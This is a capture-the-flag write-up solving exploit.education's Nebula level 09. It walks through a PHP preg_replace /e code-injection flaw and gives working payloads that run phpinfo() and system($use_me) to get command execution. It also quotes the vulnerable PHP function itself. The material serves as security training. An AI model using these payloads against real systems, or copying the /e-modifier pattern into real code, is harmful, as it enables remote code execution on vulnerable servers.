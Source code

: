 # Nebula - [LEVEL 09](https://exploit.education/nebula/level-09/)

Level Description:

![level.JPG](images/level.JPG)

# Nebula - [LEVEL 09](https://exploit.education/nebula/level-09/) - Solution

Let's observe the ```markup``` function:
```php
function markup($filename, $use_me)
{
  $contents = file_get_contents($filename);

  $contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);
  $contents = preg_replace("/\[/", "<", $contents);
  $contents = preg_replace("/\]/", ">", $contents);

  return $contents;
}
```

We can see the call to ```preg_replace``` function.

We know about command injection vulnerability related to this function ([Reference](https://captainnoob.medium.com/command-execution-preg-replace-php-function-exploit-62d6f746bda4)).

Let's use this vulnerability to get RCE.

To check it, We can put the following content on ```/tmp/test``` file:
```php
[email {${phpinfo()}}]
```

Then, Let's call to ```./flag09 /tmp/test```:

![phpinfo.JPG](images/phpinfo.JPG)

We can see the output of ```phpinfo()``` function.

Let's try to call to ```system("getflag")```:
```php
[email {${system("getflag")}}]
```

![getflag.JPG](images/getflag.JPG)

We can see it's failed, As we can see on the function call we have another parameter ```$use_me```, Let's try to use it:
```php
[email {${system($use_me)}}]
```

![flag.JPG](images/flag.JPG)
